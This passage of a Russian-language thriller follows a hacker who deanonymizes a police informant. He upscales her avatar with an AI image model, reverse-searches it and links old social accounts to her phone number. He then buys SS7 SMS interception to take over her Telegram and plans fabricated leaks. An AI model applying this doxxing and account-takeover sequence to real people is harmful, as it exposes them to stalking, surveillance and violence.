И тут сквозь вязкий туман усталости его прошила одна холодная, ясная мысль. Она была настолько простой и очевидной, что он не понимал, как не пришёл к ней раньше. Это не просто отсутствие следа. Это идеально зачищенный след. Искусственный. Невозможный. Ни один реальный человек, живущий в России в 2023 году и вовлечённый в теневые схемы, не может быть настолько стерильным. У каждого есть забытый email, старый аккаунт, комментарий. У каждого. Отсутствие цифрового шума было самым громким сигналом тревоги.

Фрагменты информации мгновенно сложились в цельную схему. Этот ник не принадлежал новичку. Он принадлежал профессионалу. Тому, кто знал, что такое операционная безопасность. Тому, кто создал этот ник для одной-единственной цели. Призрак. Легендированный оперативник. Информатор.

*Крыса.*

Он откинулся на спинку стула. Скрип показался ему оглушительным. Усталость испарилась, смытая ледяной волной. Он нашёл её. Он не знал, кто она. Не знал её имени, её лица. Но он нашёл её цифровой фантом. И этого было достаточно.

*03:30.*

Парадигма сместилась. Он больше не был жертвой, ищущей выход. Он стал охотником, напавшим на след.

Никита закрыл окно SpiderFoot. OSINT вширь был закончен. Начинался OSINT вглубь. Хирургическая работа. Он создал новый, зашифрованный текстовый файл. Назвал его decoy_op_soika․txt. Слово "decoy" было для себя. Если его ноутбук когда-нибудь попадёт не в те руки, это название могло дать ему лишние пару секунд.

Он открыл лог чата и начал методично копировать в новый файл каждое сообщение, отправленное пользователем Сойка. Их было немного, около сорока. Она была немногословна. Он начал анализировать. Не что она писала, а как.

Время отправки. Почти всегда с 10 утра до 6 вечера. Рабочие часы.

Стиль письма. Безупречная грамотность. Тире вместо дефиса. Всегда точка в конце предложения. Это не речь человека с улицы. Это речь человека, привыкшего писать отчёты.

Лексика. Она никогда не использовала мат. Только сухие, функциональные вопросы и ответы.

Он прокручивал её сообщения снова и снова, ища зацепку, аномалию. И он нашёл.

Сообщение было отправлено три недели назад, когда они обсуждали географию работы дропов. Один из участников жаловался, что на юге города стало опасно работать. И Сойка ответила. Короткая, единственная фраза, которую он тогда пропустил.

*&gt; Центр и север — без проблем. На юге сложнее, там сейчас много 'туристов' в сером.*

Никита впился взглядом в эту фразу. «Туристы в сером». Этот жаргонизм он слышал всего пару раз в жизни, на старых форумах контрразведчиков и бывших оперов. Так в узких кругах называли «наружку», агентов наружного наблюдения. Обычный студент-дроп не знает таких выражений. Это был профессиональный сленг. Прокол. Маленькая, почти незаметная ошибка. Она на секунду вышла из роли, использовав привычный для себя термин.

Он скопировал эту фразу в свой файл и выделил её. Вот она. Первая реальная, осязаемая улика. У него был ник. У него было подтверждение её профессионализма, выданное ею самой.

Никита откинулся на спинку стула и медленно выдохнул. Он не знал её имени. Не знал, как она выглядит. Но он знал, что она — ключ ко всей операции. Она была тем самым «поводырём» или, по крайней мере, стояла к нему ближе всех. В его воспалённых глазах больше не было страха или отчаяния. Только холодная, сфокусированная пустота. Он нашёл точку входа.

Он сохранил файл и закрыл его. Следующий шаг — деанонимизация. Самый сложный и опасный этап. Но теперь у него была цель. И это меняло всё.

### Глава 9

Глава 9

Первые дни в колпинской однушке были липким, животным ужасом. Каждый скрип половиц в коридоре, каждый звук лифта казались предвестниками конца. Он спал урывками, просыпаясь от собственного скрежета зубов, и снова садился за ноутбук, сканируя эфир, выискивая в новостных лентах малейший намёк на свой провал.

Но система молчала. Эфир молчал. Эта цифровая пустота давила сильнее любой погони.

Теперь, на исходе второй недели, страх мутировал. Он никуда не делся, но из аморфного, всепоглощающего ужаса превратился в холодный, тяжёлый узел в солнечном сплетении. Животное, забившееся в нору, сдохло. На его месте появился охотник. Методичный, терпеливый, движимый не паникой, а чистой, концентрированной ненавистью. Он больше не прятался. Он выслеживал. Последний звонок матери, её уставший голос, в котором он услышал не просто жалобы, а обратный отсчёт, сжёг в нём последние остатки апатии. Время, которое раньше было бесконечным мучением ожидания, теперь стало самым дефицитным ресурсом. Он не искал выход. Он искал оружие. Имя этому оружию было «Сойка».

*12 декабря 2023, 18:13*

Густой, спёртый воздух был пропитан запахами перегретого пластика, недельной пыли и кисловатой отдушкой дешёвого энергетика. Никита сидел, сгорбившись, и его лицо в мертвенном свете монитора было лишено мимики. Воспалённые глаза не моргая смотрели на открытый файл chat_logs_full․bak. Где-то в этом массиве цифрового мусора, в этой свалке бессмысленных реплик, была она. Ошибка. Человеческий фактор. Та самая ниточка.

Он начал методично прочёсывать лог. Пальцы летали над клавиатурой. Ctrl+F. Ник: Soika. Фильтрация по медиафайлам. Единственный результат. Месяц назад «Сойка» отправила в чат скриншот с какой-то ошибкой банковского приложения. Никита увеличил изображение. Картинку изуродовало сжатие телеграма, но на ней можно было разобрать не только окно с ошибкой. В левом нижнем углу виднелся край стола и женская рука. Тонкое запястье охватывал плетёный кожаный браслет.

Вот она. Первая зацепка. Не просто ник, а физический артефакт. Он подался вперёд, почти касаясь лицом экрана, и почувствовал, как по позвоночнику пробежал знакомый ледяной импульс — азарт охотника, напавшего на след. Он аккуратно вырезал фрагмент изображения — стол, рука, браслет — и сохранил его. clue_1․jpg.

Новая вкладка в браузере под прикрытием Tor. Поиск по картинкам. Загрузка файла. Щелчок клавиши Enter прорезал тишину. Вентилятор ноутбука натужно взвыл. Никита задержал дыхание. Глаза резало от света экрана, веки казались наждачной бумагой.

*«Давай. Просто дай мне хоть что-то. Любой интернет-магазин, любой пост, где засветился этот браслет. Люди тупые. Они хвастаются вещами. Она должна была где-то похвастаться…»*

Ощущение погони, липкая смесь страха и всемогущества, вернулось. Он вспомнил, как много лет назад так же искал по фотографии кроссовок одного из школьных обидчиков. Нашёл. Узнал, где тот живёт. И потом полночи слал на его домашний номер анонимные угрозы.

Экран заполнился бесконечной мозаикой похожих браслетов с Wildberries, Pinterest, Avito. Цифровой белый шум. Бесполезный мусор. Он методично пролистал десять страниц. Ничего. Попробовал Yandex. Тот же результат. Несколько часов работы превратились в пыль. Надежда схлопнулась в точку. Никита с силой захлопнул крышку ноутбука. Пластик жалобно хрустнул. «Идиот. Профессионал не допустит такой ошибки. Это не улика. Это просто… мусор». Он встал и подошёл к окну. За стеклом висел унылый колпинский вечер. Лёгкого пути не будет. Значит, придётся проламывать стену головой.

*12 декабря 2023, 21:04*

Он просидел у окна почти час. Раздражение сменилось холодной, расчётливой злостью. Он вернулся к столу. Если враг умён, нужно искать неочевидные следы. Он снова открыл лог чата, но на этот раз его взгляд зацепился за аватарку «Сойки». Крошечный кружок, 200 на 200 пикселей. Размытый до неузнаваемости женский профиль. Бесполезная картинка.

И тут в голове что-то щёлкнуло. Одно из главных правил OpSec: для анонимных аккаунтов никогда не использовать свежие, качественные фото. Профессионалы, если и ставят фото, то либо сгенерированное нейросетью, либо очень старое. Низкого разрешения. Такой снимок — почти невидимый призрак для поисковых алгоритмов. Но что, если этого призрака можно заставить обрести плоть?

Он сохранил крошечное изображение. soika_avatar․jpg. Два килобайта пиксельной каши. Из щелей в старой оконной раме начало тянуть ночным холодом. Никита плотнее закутался в толстовку.

*«Она думала, что это безопасно. Старая фотка. Ни один поисковик её не возьмёт. Но технологии не стоят на месте. Давай, машинка, покажи мне её лицо».*

Он открыл чёрный прямоугольник терминала. Несколько месяцев назад он ради эксперимента скачал Real-ESRGAN — нейросеть для увеличения разрешения изображений. Тогда это было игрушкой. Сейчас стало оружием.

*python upscale․py --model RealESRGAN_x4plus --input soika_avatar․jpg --output soika_face․png*

Enter. Ноутбук взвыл. Дешёвый процессор захлёбывался. Вентилятор закрутился со звуком маленького дрона. Из вентиляционных отверстий потянуло горячим, пахнущим палёным пластиком воздухом. Никита смотрел на бегущие строки логов.

*[INFO] Processing... 10%... 25%...*

В ушах стоял только вой вентилятора, и, казалось, само время замедлилось в такт его вращению.

*[INFO] Processing finished. Output saved to soika_face․png.*

Никита замер. Двойной щелчок. Изображение открылось. Вместо пиксельной мешанины на него смотрело лицо. Немного искусственное, «пластиковое», но абсолютно чёткое. Лицо молодой женщины, лет двадцати пяти, с чуть заметной усмешкой в уголке губ. Он ещё не знал её имени. Но теперь у него было её лицо.

**12 декабря 2023, 22:37**

С новым файлом игра пошла по другим правилам. Он снова открыл поисковики, но на этот раз загрузил обработанное изображение. Первые две страницы — мусор. Он уже готовился к очередной неудаче.

Третья страница Google. Мусор, мусор… стоп. Неприметная синяя ссылка. Текст под ней: «Елена Воронова | ВКонтакте».

Он замер. Воздух в лёгких кончился, но он забыл сделать новый вдох. Клик. Открылась страница. Старая, заброшенная. Последний визит — 18 мая 2020 года. Аватарка была другой, но когда он открыл фотоальбом, то сразу её увидел. Та самая фотография, с которой был взят пиксельный огрызок для телеграма. Она. Елена Воронова.

Классическая ошибка. Она тщательно зачистила все свои актуальные цифровые следы. Но старый, забытый, как студенческий билет, аккаунт остался висеть мёртвым грузом. Цифровой призрак из прошлого.

Никита лихорадочно, с животной жадностью, начал пролистывать фотоальбом. Вот она с подругами в клубе, вот на пикнике. И вдруг он замер. Одна из фотографий, сделанная в баре года четыре назад. Елена сидит за столиком. Её рука лежит на столешнице. И на запястье… тот самый плетёный кожаный браслет.

Бинго.

Он откинулся на скрипучую спинку стула. В ушах стоял звон. Он сделал глубокий, судорожный вдох, и спёртый воздух комнаты показался сладким.

*«Попалась. Попалась, сука. Думала, самая умная. Думала, зачистила всё. Но интернет помнит. Интернет, блядь, ничего не забывает».*

По телу прошла волна ледяного, хищного удовлетворения. Губы сами собой растянулись в кривую, неприятную ухмылку. Он снова посмотрел на фотографию. На улыбающуюся, беззаботную девушку. Человек на фотографии перестал существовать. Осталась только цель, набор уязвимостей, которые он теперь будет методично эксплуатировать.

*13 декабря 2023, 00:19*

Триумф был коротким. Имя и лицо — это много, но для атаки недостаточно. Нужна была точка входа. Никита не стал закрывать страницу. Он начал её «пылесосить».

Список друзей. Группы и паблики. «Подслушано СПбГУ», «Типичный программист». Ничего. Он начал читать комментарии. Час монотонной, выматывающей работы.

И тут он нашёл зацепку. В названиях фотоальбомов. Один из них назывался «Geek Picnic 2019». Никита открыл его. Десятки фотографий с фестиваля. Под одной из них комментарий от девушки по имени Ольга Петрова: «Ленка, помнишь, как мы на квизе по кибербезу от „Кода Безопасности“ всех уделали?))».

Новый вектор. Никита открыл новую вкладку. «Geek Picnic 2019» «Код Безопасности» квиз победители. Четвёртая ссылка вела на старый пост в блоге компании. «…а победителями нашего квиза стала команда „Kernel Panic“ в составе Елены Вороновой и Ольги Петровой! Девушки получают ценные призы и годовую премиум-подписку на наш профессиональный портал CodeSec․Pro».

Никита перешёл на сайт CodeSec․Pro. Унылый форум для сисадминов и безопасников. Поиск по пользователям. «Елена Воронова». Есть. Профиль полуживой, последнее сообщение — год назад. Но в контактной информации… был указан телеграм. voronova__elena. И номер телефона. +7921XXXXXXX. Она посчитала профессиональный ресурс достаточно безопасным, чтобы оставить там реальные контакты.

Не ошибка. Подарок.

Он запустил на виртуальной машине портативную версию Telegram. Открыл «Контакты», нажал «Добавить». Руки слегка дрожали, когда он вставлял номер.

*«Бред. Не может быть так просто. Она должна была сменить номер. Это первое правило…»*

Он вспомнил, как на своей работе в «ТрансКарго» объяснял начальнику, почему нельзя записывать пароли на стикерах. Люди ленивы и беспечны. Все.

Приложение задумалось. А потом на экране появился новый контакт. Имя — «Лена». А рядом с именем — знакомый до боли кружок аватарки. Размытый женский профиль.

Никита тихо, почти беззвучно рассмеялся. Она не сменила номер. Она просто отвязала от него старую страницу ВКонтакте, но основной мессенджер, рабочий инструмент, остался привязан к старому, скомпрометированному номеру. Точка входа была найдена. И теперь оставался последний шаг. Самый опасный и самый грязный.

*13 декабря 2023, 03:08*

Ночь была в самом зените. Колпино спало. Никита открыл новую сессию Tor-браузера. Он зашёл на один из старейших теневых форумов. Сразу пошёл в закрытую секцию «Услуги».

Он нашёл нужного пользователя. Ник — SS7_God. Репутация — почти тысяча успешных сделок. Специализация — эксплуатация уязвимостей в протоколе сигнализации SS7. Проще говоря, этот человек мог перехватить любую СМС. Грязная, дорогая и очень опасная магия.

Никита кликнул на ссылку, ведущую к автоматизированному боту-приёмщику заказов в Telegram. «Новый заказ».

*«Перехват SMS». RU. [К оплате: 0․02 BTC. Адрес для перевода: bc1q… Ожидание оплаты].*

Около тысячи долларов, прикинул он. Эти деньги были частью его неприкосновенного запаса. Тратить их — всё равно что вытащить кирпич из основания своего убежища. Но выбора не было. Он открыл аппаратный кошелёк. Щелчок мыши, подтверждающий транзакцию. Деньги ушли. Обратного пути не было.

Бот прислал новое сообщение:

*[Оплата получена. Подготовка системы займет около 15 минут. Ожидайте].*

Пятнадцать минут растянулись в вечность. Он вскочил, подошёл к двери, прислушался. Тишина. Выпил залпом остатки ледяного энергетика. Напиток показался горьким.

*14:59… 15:00…*

*[СИСТЕМА ГОТОВА. У ВАС 5 МИНУТ НА АКТИВАЦИЮ ПЕРЕХВАТА].*

Время пошло. Никита открыл окно входа в Telegram на своей виртуальной машине. Ввёл номер телефона Елены. Перепроверил трижды. Нажал «Далее».

Он вцепился в край стола, чувствуя, как кончики пальцев немеют от напряжения. Мир сузился до двух окон на мониторе: поле для ввода кода и пустое окно чата с ботом. Каждый скрип старого стула, каждый его вздох казался оглушительным.

*«Сейчас. Или всё, или ничего. Или я получаю ключ, или они получают меня. Давай. Давай, сука, работай…»*

На экране появилось поле для ввода кода. Он переключился на окно с ботом. Ничего. Секунда. Две. Пять. Десять. Внезапно в чате появилось сообщение. Просто пять цифр.

*[ВАШ КОД: 81539]*

Он не дышал. Руки слегка дрожали, когда он копировал код. Палец соскользнул, выделив лишний пробел. Чёрт. Он стёр его и вставил заново. Нажал Enter. Экран на мгновение замер. А затем…

Перед ним открылся её Telegram. Полный список чатов. Он был внутри.

Он видел всё. Переписку с мамой. Чат с подругами «Курицы». Канал с мемами. И… чат с контактом, подписанным просто «Д.С.». Он открыл его. Последнее сообщение от неё, отправленное две недели назад: «Чисто. Туристы на месте». И его ответ: «Принял. Залечь на дно. До связи».

Никита откинулся на спинку стула. Он больше не чувствовал ни усталости, ни страха, ни голода. Он чувствовал только безграничную, ледяную власть. Роли сменились. Жертва и охотник — эти категории остались в прошлом. Теперь он сидел в командном центре врага, читая его секретные донесения. И теперь он точно знал, кто дёргает за ниточки.

### Глава 10

Глава 10

Тринадцать минут. Семьсот восемьдесят секунд с того момента, как он вскрыл чужую душу, словно дешёвый консервный замок. За это время Никита успел сделать ровно три вещи: выпить залпом остатки тёплого энергетика, сходить в туалет, где его едва не вырвало кислотной горечью, и создать полный зашифрованный бэкап телеграм-аккаунта Елены Вороновой. На секунду выскочило окно ошибки — «CRC failed» — и по венам прошёлся ледяной ток, но потом процесс завершился успешно. Это был не триумф. Страховка. В его мире активы, которые ты не контролируешь полностью, не стоят ничего. Теперь, даже если Лена или её куратор сменят пароль, у него останется слепок её жизни. Холодный, цифровой труп, который можно будет препарировать неделями.

Он сидел перед дешёвым ноутбуком в затхлом полумраке колпинской однушки. Сорок два часа без сна. Время потеряло свою линейность, превратившись в вязкую, пульсирующую субстанцию. Дешёвый пластик корпуса под его ладонями казался липким. Воздух в комнате, спёртый, тяжёлый, пах пылью, его собственным потом и приторно-химическим запахом выпитых стимуляторов. За окном занимался бледный, декабрьский рассвет, но для Никиты существовал только один источник света — прямоугольник экрана, обещавший ответы.

Страх, который грыз его изнутри последние недели, испарился, выжженный дотла бессонницей и адреналином. На его месте образовалась холодная, звенящая пустота, идеальная среда для охоты. Роль жертвы рассыпалась в прах. Теперь он был хищником, выслеживающим добычу для вскрытия. Контроль вернулся. По крайней мере, ему так казалось.

Палец завис над тачпадом, курсор дрожал на иконке скомпрометированного клиента Telegram. Это было последнее мгновение перед погружением. Он чувствовал, как кровь прилила к лицу, а в ушах зазвенело от напряжения. Не страх. Возбуждение. Чистое, незамутнённое возбуждение исследователя, стоящего на пороге открытия, которое изменит всё. Он нажал.

Экран ожил, заполнившись десятками чатов. «Дропы СПБ», «Обнал Питер», «Работа для студентов» — цифровой мусор, нижний слой пищевой цепочки. Никита проигнорировал их, его взгляд скользил по списку, ища то, что имело значение. И он нашёл. Закреплённый в самом верху списка диалог. Контакт был подписан двумя буквами: «Д.С.». Никакой фотографии. Позвоночник стянуло спазмом, будто от короткого замыкания. Это было оно. Ядро. Центр управления полётами всей этой операции.

Он открыл чат. Последнее сообщение было отправлено три дня назад. «Активности нет. Лежит на дне. Жду указаний», — писала Лена. Ответа не было. Никита начал медленно, почти смакуя, прокручивать историю вверх. Это было похоже на чтение бортового журнала вражеского корабля. Сухие, деловые отчёты, лишённые эмоций.

*19:42, 5 ноября: Козлов сегодня нервный, собирал всех своих быков. Говорил про «крупную рыбу». Похоже, это наша тема.*

*12:16, 7 ноября: Новый дроп, ник «Паштет». Павел Сергеев. Студент, первый курс. Выглядит слабым звеном. Идеальный кандидат для показательного задержания.*

*22:03, 10 ноября: Передала инфу по счетам-прокладкам. Всё чисто.*

Никита читал, и чувство триумфа постепенно смешивалось с отвращением. Он видел, как она, эта «Сойка», методично, хладнокровно документировала каждый шаг, сдавала каждого участника. Она была не просто информатором. Она была системным администратором этого провала. Он прокручивал недели, месяцы. Переписка тянулась в прошлое, как бесконечный лог-файл предательства. Он чувствовал себя не хакером, а патологоанатомом, изучающим историю болезни обречённого организма. Его собственная роль в этой переписке была ничтожна. «Хакер вышел на связь». Он был функцией, переменной в чужом коде.

Он добрался до дня «Икс». Сообщение от «Д.С.», отправленное за час до начала вывода средств, было коротким, как выстрел.

*11:50, 15 ноября: Группа готова. Работай по Паше. Он должен запаниковать. Жди сигнала на задержании.*

Ответ Лены, пришедший через минуту, был ещё короче.

*11:51, 15 ноября: Поняла.*

Два сообщения висели на экране. Пальцы застыли над тачпадом. Взгляд зацепился за строчки. В голове на мгновение стало тихо, будто выключили звук. Он медленно выдохнул, и вместе с воздухом из него вышло что-то ещё. Какая-то последняя наивная вера в случайность. Это не было просто «сливом». Это была срежиссированная постановка. Пашу не просто поймали. Его целенаправленно вели на заклание. Его паника была не случайностью, а запланированным элементом операции. Лена не просто информировала. Она провоцировала. Она была спусковым крючком.

Внутри что-то оборвалось. Он почувствовал себя невероятно грязным. Он, считавший себя кукловодом, был всего лишь одним из реквизитов в этом спектакле, поставленном неизвестным режиссёром с инициалами «Д.С.». Он прокрутил чат до самого начала. Первое сообщение было датировано маем 2022 года. Почти полтора года. Она работала на них всё это время. Это открытие сработало как эксплойт нулевого дня для его психики — пробило всю защиту без предупреждения. Он думал, что вскрыл свежую рану, а наткнулся на застарелый, гниющий нарыв. Лена была не загнанной в угол девчонкой, пошедшей на сделку со следствием. Она была опытным, хладнокровным, профессиональным агентом. И он, B4d_M00d, гений даркнета, угодил в её сеть, как последняя тупая мошка.

Охотничий азарт вернулся, вытеснив омерзение. Теперь у него была новая цель. Лена — лишь инструмент. Ему нужно было имя того, кто этот инструмент держал в руках. «Д.С.». Два инициала. Он открыл браузер в защищённой среде Whonix. Пальцы легли на клавиатуру и пришли в движение — быстрые, точные, почти беззвучные.

*"Д.С." ГУЭБиПК МВД Санкт-Петербург*

Он нажал Enter. Система выдала десятки ссылок. Первая же привлекла его внимание: «Капитан полиции Денис Сомов награждён…». С фотографии на него смотрел молодой капитан с самодовольной улыбкой. Никита потратил почти десять минут, изучая всё, что смог найти на этого Сомова. Ничего. Ни одной зацепки. Раздражение начало закипать внутри. Он потратил драгоценное время на пустышку.

Он вернулся к окну Telegram. Снова посмотрел на аватарку «Д.С.». Синий круг, белые буквы. Или нет? Он прищурился. Что-то было не так. Он сделал скриншот, открыл его в графическом редакторе и увеличил до предела. Изображение распалось на пиксели, но теперь он видел. Это была не просто заливка. Это было сильно сжатое, превращённое в кашу из артефактов изображение. Где-то там было лицо.

Он снова почувствовал прилив адреналина. Тот же алгоритм, что сработал с Леной. Он загрузил крошечный файл с аватаркой в папку с нейросетью Real-ESRGAN. Запустил скрипт. Вентилятор ноутбука взвыл. На секунду всё зависло, экран моргнул, и Никита сжал кулаки, боясь, что дешёвое железо не выдержит. Но потом процесс завершился. На экране появилось новое изображение. Качество было ужасным, черты лица размыты, но это был портрет. Мужчина, лет сорока пяти, в пиджаке и галстуке, на фоне какого-то кабинета. Было видно линию волос с залысинами, уставшие глаза, тяжёлый подбородок.

Никита вернулся в поисковик. Он стёр старый запрос и ввёл новый, более точный.

*майор "Дмитрий Сергеевич" ГУЭБиПК фото*

На этот раз результат был почти мгновенным. Третья ссылка вела на сайт регионального новостного агентства. Заголовок гласил: «Майор Дмитрий Сергеевич Власов прокомментировал успешное задержание группы фальшивомонетчиков…». Никита кликнул. Со страницы на него смотрел тот самый человек. Уставший, немолодой мужчина с тяжёлым взглядом и едва заметной усмешкой. Фотография была сделана на фоне того же кабинета. Совпадение было стопроцентным. Он нашёл его. Система перестала быть безликой. У неё появилось имя.

— Власов… — прошептал Никита в пустоту комнаты. — Дмитрий Сергеевич.

Имя повисло в спёртом воздухе. Он повторил его ещё раз, и имя царапнуло горло. Власов. Это имя ничего ему не говорило, но теперь оно стало центром его вселенной. Это был его персональный враг. Человек, который дёргал за ниточки. Человек, который превратил его в наживку.

Он откинулся на спинку дешёвого, скрипучего стула. Никита уставился на фотографию Власова. В ушах стоял тонкий, непрерывный звон — результат бессонницы и литров кофеина. Вентилятор ноутбука только что затих, и наступившая тишина давила на уши. Адреналин, державший его на ногах, внезапно иссяк. Словно из системы выдернули кабель питания. На него разом обрушилась вся тяжесть накопленной усталости.

Его мозг продолжал по инерции соединять точки, но теперь это был не триумфальный анализ, а агония.

Старый провал годичной давности. Такой же нелепый.

IP-адрес, с которого пришёл «маячок» на его старую почту.

Идеально срежиссированное задержание Паши.

Полное, гробовое молчание в СМИ.

И, наконец, эта переписка. Полтора года методичной работы Лены под руководством Власова.

Пазл сложился. Но картина, которая получилась, была чудовищной. Его разум отказывался её принимать. Он медленно, мучительно осознавал правду. Дело было не в Лене. И не в Козлове с Алиевым. Вся эта операция была под контролем Власова. Его не просто «вели». Его спровоцировали. Его наняли не для того, чтобы он украл деньги. Его наняли для того, чтобы он попытался их украсть. Он не был хакером. Он был приманкой. Спусковым крючком, который должен был позволить Власову одним ударом накрыть всю верхушку.

Всё, чем он так гордился — его гениальный план, его двойная игра, его безупречный OpSec — всё это было мышиной вознёй в лабиринте, который построил для него этот уставший майор. Периферийное зрение смазалось, геометрия комнаты поплыла. Он вцепился пальцами в стол, чтобы не рухнуть. Он не был игроком на этой доске. Он не был даже пешкой. Он был наживкой на крючке.

К горлу подступила тошнота. Едкая, кислая. Он согнулся пополам, обхватив живот руками. Он зажмурился, но перед глазами всё равно стояло лицо Власова. Спокойное, уверенное лицо человека, который всё контролирует. И внезапно, сквозь тошноту и головокружение, из его груди вырвался звук. Тихий, сдавленный смешок. Он перерос в хрип, потом в полноценный, тихий, безумный смех. Он смеялся над собой: над B4d_M00d, гениальным хакером, который считал себя умнее всех, и над идиотом, который так гордился своим контролем, бегая по кругу в чужой клетке. Смех сотрясал его тело, из глаз брызнули слёзы — не от горя.

Смех оборвался так же внезапно, как и начался. Никита замер, согнувшись над столом. Тишина в комнате стала плотной, почти осязаемой. Он медленно выпрямился. Дрожь в руках прошла. Он чувствовал себя выжженным дотла. Дно было достигнуто. Ниже падать было некуда. И в этой выжженной пустоте зародилось что-то новое. Не страх. Не отчаяние. Холодная, чистая ярость.

Он встал и, пошатываясь, подошёл к единственному окну. Прижался лбом к холодному, запотевшему стеклу. Холод отрезвлял. За окном серый, безликий пейзаж Колпино просыпался к новому дню. Обычные люди шли на работу. А его жизнь только что закончилась. И началась новая.

В его голове прокручивались варианты. Бежать? Куда? Власов знает о нём если не всё, то почти всё. Они ждут. Спрятаться? Они найдут. Через мать. Это была его главная уязвимость, и он был уверен, что Власов о ней знает. Её квартира наверняка уже под наблюдением. Любая попытка связаться с ней — это ловушка. Путь бегства — это не выход. Это всего лишь отсрочка приговора.

И тогда, глядя на унылые панельки, он понял. Если игра уже проиграна, единственный оставшийся ход — сломать шахматную доску. Он больше не будет играть по их правилам. Власов, Козлов, Алиев — они все считают себя игроками. А он выйдет за её пределы. Он станет силой, которая перевернёт стол.

Он отошёл от окна. Его взгляд изменился. Из затравленного он стал жёстким, сфокусированным, нечеловечески спокойным. В нём не было жизни, только расчёт. Он больше не думал о деньгах для матери. Не думал о побеге. Всё это стало мелким. Теперь у него была только одна цель. Хаос. Он заставит их всех сожрать друг друга. Козлова, Алиева, и даже Власова, подкинув ему такую проблему, которая заставит его отвлечься. И в этом рукотворном аду, в этой буре, которую он собирался устроить, он найдёт свою точку выхода. Не побег. А эвакуацию с поля боя, который он сам же и создаст.

Никита вернулся к ноутбуку. Его движения стали точными и экономными, словно у хирурга. Усталости больше не было. На её месте была предельная, звенящая концентрация. Он закрыл все окна. Рабочий стол стал девственно чистым. Он открыл простой текстовый редактор — чёрный фон, мигающий зелёный курсор. Чистый лист. Начало новой войны.

Пальцы легли на клавиатуру. Он начал печатать. Никаких эмоций. Только пункты плана. Архитектура его мести.

*ПРОТОКОЛ: НЕМЕЗИДА*

*1. ДИВЕРСИЯ. ЦЕЛЬ ДЛЯ ВЛАСОВА. Найти актив крупнее и токсичнее Козлова. Найти цель, на которую Система бросит все ресурсы. Слить полный дамп данных через анонимный канал от имени подставного лица. Переключить фокус Власова.*

*2. ДЕСТАБИЛИЗАЦИЯ. ЯБЛОКО РАЗДОРА. Сфабриковать убедительные доказательства того, что Алиев с самого начала работал с Власовым, чтобы слить Козлова. Использовать реальные факты из переписки Лены для максимального правдоподобия. Слить архив Козлову. Инициировать полномасштабную войну между группировками.*

*3. ЭКСФИЛЬТРАЦИЯ. ОКНО ВОЗМОЖНОСТИ. Пока Система занята новой целью, а бандиты режут друг друга, провести быструю операцию по отмывке и выводу всех крипто-активов. Исчезнуть.*

Он смотрел на три этих пункта. Это был не план побега. Это был сценарий кровавой пьесы, где он был и автором, и режиссёром. Он больше не чувствовал себя Никитой Сергеевым, забитым сисадмином. Он не был и B4d_M00d, самонадеянным хакером. Он был чем-то другим. Функцией. Протоколом возмездия.

Он сохранил файл, назвав его mat_v_tri_hoda․txt. Зелёный курсор продолжал ровно мигать в конце последней строки. Он не отсчитывал время. Он был таймером на взрывном устройстве, которое Никита только что собрал и взвёл. И теперь оставалось только нажать на кнопку.

### Глава 11

Глава 11

Неделя, вырванная из календаря, из жизни. Первые двое суток после того, как он набросал в текстовом файле свой «Мат в три хода», Никита провалился в сон. Не в отдых, а в тяжёлое, липкое забытьё. Тело, доведённое до предела, просто отключилось. Он очнулся на полу. Шея затекла, в голове гудело, будто её выскребли изнутри ржавой ложкой. Паника ушла. Отчаяние испарилось. Ярость, раскалённая добела, перегорела. Остался только холод и ясная цель.

Остальные пять дней он превратил свою жизнь в аскетичный, почти тюремный ритуал. Загнанная крыса сдохла. Остался механизм. Сон — ровно четыре часа, по будильнику. Еда — заказанная через даркнет-сервис доставка: безвкусные пластиковые контейнеры с гречкой и варёной куриной грудкой, которые он поглощал, не чувствуя вкуса. Физическая активность — отжимания от грязного линолеума до жжения в мышцах, приседания до дрожи в ногах. Сжечь остатки адреналина. Превратить животный страх в топливо.

Всё остальное время он сидел перед тусклым экраном дешёвого ноутбука. Конспиративная квартира в Колпине стала его операционным центром. Запах сырости и старой пыли больше не вызывал отвращения — он стал фоном, как ровный шелест кулера. Часы уходили на теневые форумы, на изучение цифровых повадок десятков потенциальных целей. Он методично препарировал архив переписки Елены Вороновой, выстраивая в программе для майнд-карт сложные графы: люди, кошельки, операции.

Он больше не бежал. Он готовился к войне. И первым шагом было создание идеального оружия — чужой личности.

*20 декабря 2023, 16:00.*

Холодный свет декабрьского дня едва пробивался сквозь засаленное стекло, превращая комнату в серую коробку. Никита ссутулился над ноутбуком на шатком кухонном столе. На экране светился текстовый файл mat_v_tri_hoda․txt.

*1. ДИВЕРСИЯ. ЦЕЛЬ ДЛЯ ВЛАСОВА.*

*2. ДЕСТАБИЛИЗАЦИЯ. ЯБЛОКО РАЗДОРА.*

*3. ЭКСФИЛЬТРАЦИЯ. ОКНО ВОЗМОЖНОСТИ.*

Курсор замер на словах «Цель для Власова». Щелчок пластика тачпада утонул в потрескивании старого холодильника. Спина затекла. «Козёл отпущения, — пронеслось в голове. — Нужен не просто аккаунт. Нужна легенда. Человек, в чью месть поверят без вопросов». Позвонки свело ледяным спазмом, не имеющим отношения к сквозняку. Не паника. Предельная, кристаллическая концентрация. Он вспомнил, как в детстве собирал сложные модели самолётов. Тот же процесс: сначала тщательный выбор основы, потом кропотливая сборка. Только сейчас цена ошибки — не испорченная деталь.

Он проговорил критерии вслух, и шёпот растворился в беззвучии квартиры.

— Первое. Цель должна быть известна. Чтобы слив от него не выглядел как фейк.

— Второе. Операционная безопасность. Он должен быть небрежен. Самонадеян. Оставлять следы.

— Третье. Мотив. В идеале — иметь пересечения с Алиевым в прошлом. Обида, долг, что угодно.

Первым в списке шёл хакер под ником «Hex». Фигура почти мифическая. Никита потратил на него двое суток. Изнурительная, кропотливая работа. Он просеивал гигабайты логов старых форумов, анализировал метаданные, искал пересечения. Поднимал архивы переписок десятилетней давности, изучал стиль кода.

Каждый найденный фрагмент — адрес почты, PGP-ключ — он тут же прогонял через все доступные OSINT-инструменты. Но чем глубже он копал, тем отчётливее понимал: «Hex» был призраком. Профессиональным параноиком. Безупречная анонимность.

На исходе второго дня Никита с силой захлопнул крышку ноутбука. Дешёвый пластик жалобно скрипнул.

— Сука, — выдохнул он в пустоту.

Он почувствовал, как в висках начинает тупо, зло стучать кровь. Время. Оно утекало. Каждый час его бездействия — это час, который Власов, Козлов и Алиев тратили на его поиски. Он встал, прошёлся по комнате. Три шага туда, три обратно. Воздуха в комнате стало меньше. Стены будто сдвинулись на сантиметр.

Он снова сел за стол, открыл ноутбук и перешёл к кандидату номер два.

*«Morok».*

